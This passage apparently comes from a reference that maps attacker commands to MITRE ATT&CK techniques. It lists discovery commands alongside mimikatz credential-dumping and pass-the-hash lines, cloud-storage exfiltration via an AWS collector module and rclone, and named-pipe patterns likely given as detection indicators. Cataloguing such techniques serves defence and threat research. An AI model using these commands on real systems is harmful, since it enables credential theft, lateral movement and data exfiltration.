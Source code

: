 Device Driver Discovery [[T1652](https://attack.mitre.org/techniques/T1652/)]

```
powershell.exe Get-SystemDriver
```
<br>

System Service Discovery [[T1007](https://attack.mitre.org/techniques/T1007/)]

```
powershell.exe gsv
powershell.exe Get-Service
powershell.exe Get-CimInstance -ClassName Win32_Service
```

```
%SYSTEMROOT%\System32\sc.exe query <service_name>
```
<br>

Use Alternate Authentication Material: Pass the Hash [[T1550.002](https://attack.mitre.org/techniques/T1550/002/)]

```
<mimikatz>.exe "privilege::debug" "sekurlsa::logonpasswords" exit > out.txt
<mimikatz>.exe "privilege::debug" "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>" exit
```
<br>

Log Enumeration [[T1654](https://attack.mitre.org/techniques/T1654/)]

```
get-eventlog security
powershell -c "get-eventlog 'Security'
```
<br>

Exfiltration Over Web Service: Exfiltration to Cloud Storage [[T1567.002](https://attack.mitre.org/techniques/T1567/002/)]

```
InvokeModule -module awscollector -awskey <key_value> -awssecret <aws_secret> -awss3bucket <domain> -awsregion <region> -handleSystems <target_host>
rclone.exe copy "\\SERVER.domain.name\path"
```
<br>

Inter-Process Communication [[T1559](https://attack.mitre.org/techniques/T1559/)]

```
\postex_*
\postex_ssh_*
\status_*
\msagent_*
\MSSE-*
\*-server
```
<br>

Create Account: Local Account [[T1136.001](https://attack.mitre.org/techniques/T1136/001/)]
